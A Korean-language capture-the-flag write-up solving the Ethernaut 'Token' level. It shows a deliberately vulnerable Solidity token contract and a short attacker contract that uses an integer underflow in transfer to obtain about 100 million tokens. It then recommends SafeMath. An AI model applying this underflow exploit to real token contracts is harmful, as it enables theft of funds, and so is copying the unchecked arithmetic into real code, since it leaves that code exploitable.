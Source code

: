 문제 해설에 들어가기 전, 이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.

![대표이미지](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/OpenZeppelin/ethernaut/Heuristic%20Wave%20Ethernaut.png?raw=true)



## Token Problem

당신에게는 20개의 토큰이 주어지며, 추가적으로 토큰을 얻을 수 있다면 이번 레벨을 통과할 수 있습니다. 되도록이면, 매우 많은 양의 토큰이면 좋겠습니다.

이번 문제는 스마트컨트랙트의 취약점을 공부해본 사람이라면 간단하게 해결할 수 있다. 스마트컨트랙트로 코드를 작서할때 반드시 고려해야 할 Over/Under Flows 이슈가 이번 문제의 핵심 개념이다. 스마트컨트랙트에 사칙연산에 관한 코드가 있을 경우, Safemath라이브러리를 import하여 사용하길 권고하는데, 사용하지 않을경우 어떤 문제가 있는지 이번 문제에서 경험해보자!



### 코드 분석

```javascript
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;	// 주소에 balances를 값으로 맵핑시켰다.
  uint public totalSupply;

  function Token(uint _initialSupply) public {	// 생성자로, 초기량이 총 공급량이다.
    balances[msg.sender] = totalSupply = _initialSupply;
  }
  /// 토큰을 전송하는 함수
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);	// _value가 초기량보다 크지 않아야한다.
    balances[msg.sender] -= _value;	// 전송량(value) 만큼 총량에서 뺀다.
    balances[_to] += _value;	// 수신자의 balance는 전송량 만큼 더한다/
    return true;
  }
  /// 주소를 넣으면 해당주소의 얼마만큼의 balance(토큰량)이 있는지 조회하는 함수
  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

코드의 주석 부분에 코드에 대한 설명을 적어두었다. Over/Under Flows이슈 외에 취약점이 위 코드에 있다. 저번 문제의 msg.sender의 개념을 상기시키면서 코드의 취약점이 무엇인지 생각해보자!

위 코드는 검증과정에서 msg.sender의 balance 값으로만 검사를 하기 때문에 저번 단계 문제처럼 다른 컨트랙트에서 악의적인 목적을 가진 컨트랙트를 만들고 UnderFlow를 활용하여 초기 발행량보다 더 많은 토큰을 전송할 수 있다. 공격자의 코드는 아래와 같다.



**Hack.sol**

```
contract Hack {
    Token token;	// Instance Address 를 가져오기 위한 변수
    
    function Hack (address _address) public { // 생성자로 Instance Address 설정
        token = Token(_address);
    }
    /// 공격기능을 수행할 함수
    function Attack (address _to, uint _value) public returns(bool) {
        return token.transfer(_to, _value);
    }
}
```

리믹스에서 Instance Address를 불러 get 함수( totalSupply, balanceOf )로 주어진 조건을 확인하면, balanceOf에 나의 EOA 주소를 기입하면 초기 지급된 20개의 토큰과 totalSupply 2100만개를 확인할 수 있다.

공격자의 코드를 컴파일하고 생성자에 Instance Address를 넣어 배포한후 아래와 같은 공격행위를 진행하자.

![token image](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/token02.png?raw=true)

왼쪽사진처럼 _to에 토큰을 받을 나의 계정주소 _value에 적당히 큰 값(필자의 경우 1억개를 기입했다.)을 넣고 트랜잭션을 발생시킨다음 balanceOf함수로 Hack 컨트랙트의 CA주소를 확인하면 Underflow가 발생 했다는 것을 확인 할 수 있고, 나의 주소를 확인해보면 1억 20개가 지급된것을 확인할 수 있다. 이로서 이번단계를 해결 할 수 있었다.

스마트컨트랙트의 취약점인 Over/Under Flows 문제를 무시하고 코드를 작성한다면, 위와 같은 개발자의 의도와는 다른 방향으로 수많은 양의 토큰이 발급될 수 있다. 항상 숫자와 관련된 코드를 작성할땐 안전하게 코드를 작성하였는지 확인해보자!



그럼, 다음번에는 6단계 Delegation에서 만나요! 
